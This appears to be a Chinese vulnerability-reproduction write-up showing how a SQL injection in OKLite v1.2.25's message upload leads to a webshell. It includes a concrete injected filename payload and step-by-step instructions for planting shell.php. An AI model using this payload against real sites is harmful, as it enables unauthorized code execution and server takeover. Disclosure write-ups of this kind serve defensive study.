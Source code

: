 OKLite v1.2.25 SQL注入导致getshell(前台)
========================================

一、漏洞简介
------------

这个漏洞在2017年在PHPOK当中就被畅师傅就被发现了。PHPOK系统被修复了，但是在OKLite当中还存在。

二、漏洞影响
------------

OKLite v1.2.25 版本

三、复现过程
------------

地址：<http://www.0-sec.org/index.php?id=message>

在线留言处上传一个图片并抓包，把文件名修改为：

    1','pf3qm0js3gb2s5f33r7lf14vl3','30'),('1',0x7265732f3230313931302f30342f,'shell.jpg','jpg',0x7265732f3230313931302f30352f7368656c6c2e706870,'1570161575','abc

![](resource/OKLitev1.2.25SQL注入导致getshell(前台)/media/rId25.png)

上传成功之后会返回图片的id和保存的路径：

![](resource/OKLitev1.2.25SQL注入导致getshell(前台)/media/rId26.png)

再次上传一个图片，把地址中的save改成replace，添加一个参数名为`oldid`，值为图片的id
+ 1。

图片的内容改为恶意的php代码：

![](resource/OKLitev1.2.25SQL注入导致getshell(前台)/media/rId27.png)

上传完成之后可在`res\201910\05`目录下生成一个shell.php

![](resource/OKLitev1.2.25SQL注入导致getshell(前台)/media/rId28.shtml)
